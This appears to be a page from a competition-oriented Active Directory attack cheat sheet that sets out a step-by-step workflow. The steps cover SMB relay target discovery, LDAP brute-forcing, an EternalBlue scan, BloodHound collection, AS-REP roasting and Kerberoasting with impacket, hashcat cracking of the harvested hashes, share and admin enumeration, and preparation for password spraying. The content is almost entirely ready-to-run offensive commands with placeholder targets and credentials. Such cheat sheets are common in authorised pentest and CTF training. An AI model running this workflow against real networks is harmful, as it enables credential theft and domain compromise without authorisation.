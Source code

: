 ## Quick Checks

### Check for Common Misconfigurations
```bash
# 1. SMB signing disabled? (relay attacks)
netexec smb DC_IP --gen-relay-list targets.txt
# If DC is in the list = critical finding

# 2. LDAP signing not required?
nmap -p 389 --script ldap-brute DC_IP

# 3. Anonymous LDAP bind allowed?
ldapsearch -x -H ldap://DC_IP -b "DC=domain,DC=local"

# 4. MS17-010 (EternalBlue) - old but gold
nmap -p445 --script smb-vuln-ms17-010 10.10.10.0/24
```

## Competition Workflow

```bash
# 1. Check SMB signing (CRITICAL)
netexec smb DC_IP --gen-relay-list relay.txt

# 2. Start BloodHound collection (background)
bloodhound-python -u USERNAME -p 'PASSWORD' -d DOMAIN.LOCAL -ns DC_IP -c All --zip &

# 3. AS-REP Roasting (quick win)
impacket-GetNPUsers DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -request

# 4. Kerberoasting (quick win)
impacket-GetUserSPNs DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -request
```

```bash
# 5. Start cracking hashes (background)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt &
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt &

# 6. Enumerate shares
netexec smb 10.10.10.0/24 -u USERNAME -p 'PASSWORD' --shares

# 7. Check for admin access
netexec smb 10.10.10.0/24 -u USERNAME -p 'PASSWORD'

# 8. Load BloodHound and run queries
```

## Password Spraying

### Before You Spray
```bash
# 1. Get password policy first!!!
netexec smb DC_IP -u USERNAME -p 'PASSWORD' --pass-pol

# Check lockout threshold and duration
# Dont spray if lockout is low 
```
